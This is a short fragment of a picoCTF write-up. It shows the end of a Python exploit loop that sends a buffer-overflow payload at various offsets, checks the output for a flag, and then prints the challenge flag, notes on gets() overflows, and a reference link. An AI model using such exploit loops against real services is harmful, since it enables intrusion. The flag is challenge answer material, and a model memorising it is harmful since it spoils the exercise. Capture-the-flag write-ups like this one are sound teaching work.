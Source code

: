 ```
        payload += p64(0xdeadbeef)
        
        p.sendline(payload)
        result = p.recvall(timeout=2).decode()
        
        if 'flag' in result.lower() or 'pico' in result.lower():
            print(f"Success with offset {offset}!")
            print(result)
            break
        else:
            print(f"Offset {offset} failed")
    except:
        continue
```
## FLAG 
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

## CONCEPTS LEARNED 
- how we can overflow a buffer when we write more data than a buffer can hold
- gets() doesn't check input size

## RESOURCES
  https://ctf101.org/binary-exploitation/overview/
